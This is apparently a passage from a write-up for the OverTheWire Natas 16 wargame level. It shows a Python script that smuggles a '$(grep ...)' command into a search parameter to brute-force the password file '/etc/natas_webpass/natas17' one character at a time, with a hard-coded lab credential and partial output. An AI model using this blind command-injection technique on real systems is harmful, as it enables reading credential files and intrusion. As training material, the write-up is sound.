 ```python
import requests

user = 'natas16'
password = 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh'
url = 'http://natas16.natas.labs.overthewire.org/'
alphas  = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
filtered = ''
passwd = ''

for char in alphas:
    brute_string = 'needle=$(grep ' + char + ' /etc/natas_webpass/natas17)hackers'
    r= requests.post(url, auth=(user, password), params=brute_string)
    if 'hackers' not in r.text:
        filtered += char
        print(filtered)

for i in range(32):
    for char in filtered:
        brute_string = 'needle=$(grep ^' + passwd + char + ' /etc/natas_webpass/natas17)hackers'
        r = requests.post(url, auth=(user, password), params=brute_string)
        if 'hackers' not in r.text:
            passwd = passwd + char
            print(passwd)
            break
```
Notice we used a second loop to filter the characters first for speed like we discussed above. Gives the output
```
b  
bc  
bcd  
bcdg  
bcdgh  
bcdghk  
bcdghkm  
bcdghkmn  
bcdghkmnq  
bcdghkmnqr  
bcdghkmnqrs  
bcdghkmnqrsw  
bcdghkmnqrswA  
bcdghkmnqrswAG  
bcdghkmnqrswAGH  
bcdghkmnqrswAGHN  
bcdghkmnqrswAGHNP  
bcdghkmnqrswAGHNPQ  
bcdghkmnqrswAGHNPQS  
bcdghkmnqrswAGHNPQSW  
bcdghkmnqrswAGHNPQSW3  
bcdghkmnqrswAGHNPQSW35  
bcdghkmnqrswAGHNPQSW357  
bcdghkmnqrswAGHNPQSW3578  
bcdghkmnqrswAGHNPQSW35789  
bcdghkmnqrswAGHNPQSW357890  
8  
8P  
8Ps  
8Ps3  
8Ps3H  
8Ps3H0  
8Ps3H0G  
8Ps3H0GW  
8Ps3H0GWb  
```